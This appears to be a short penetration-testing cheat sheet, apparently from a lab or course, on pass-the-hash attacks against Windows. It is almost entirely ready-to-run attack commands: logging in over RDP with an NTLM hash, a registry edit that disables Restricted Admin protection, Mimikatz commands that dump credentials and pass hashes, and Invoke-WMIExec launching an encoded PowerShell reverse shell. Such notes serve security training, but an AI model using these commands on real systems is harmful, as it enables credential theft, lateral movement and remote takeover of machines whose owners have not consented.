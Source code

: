 ### PTH using RDP:

```bash
xfreerdp /v:10.129.25.120 /u:administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453
```

Restricted Admin Mode - Disabled by default

To Enable: 

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Then PTH for RDP should work

### Mimikatz:

Find hashes:

```bash
mimikatz.exe
privilege::debug
token::elevate
sekurlsa::logonPasswords full
```

PTH using Mimikatz:

```bash
mimikatz.exe privilege::debug "sekurlsa::pth /user:<USER> /rc4:<NTLM> /domain:<DOMAIN> /run:cmd.exe" exit
```

PTH using PowerShell

```bash
import-module .\Invoke-WMIExec.ps1
Invoke-WMIExec -Target <DC/PC-NAME> -Domain <DOMAIN> -Username <USER> -Hash <NTLM> -Command "powershell -e {revshells.com/PowerShell#3}
```
